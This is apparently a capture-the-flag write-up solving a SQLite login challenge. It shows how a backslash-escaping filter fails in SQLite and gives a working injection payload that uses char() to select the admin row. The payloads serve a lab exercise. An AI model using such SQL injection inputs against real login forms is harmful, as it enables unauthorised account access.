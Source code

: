 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 38
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/4f8d6e75-d77a-487a-9a87-463fd8f15b4a)

We are provided with the SQLite query:

```sqlite
SELECT id FROM member WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

If we provide the following URI parameter:

```
?id=admin' -- -
```

The challenge adds a slash `\` character before the single-quote `'`. The resultant query becomes:

```sqlite
SELECT id FROM member WHERE id='admin\' -- -' AND pw='{$_GET[pw]}'
```

In SQLite however, the slash `\` characcter does not act as an escape character. Therefore, `admin\` is treated as a string.

In order to work around this we have to use the `char()` function, as `hex()` is not allowed in SQLite.

We can provide the following URI parameter:

```
?id=admin' OR id=char(97,100,109,105,110) -- -
```

The resultant query becomes:

```sqlite
SELECT id FROM member WHERE id='admin\' OR id=char(97,100,109,105,110) -- -' AND pw=''
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/bf14c154-db21-4066-b055-c8ed4682dd76)

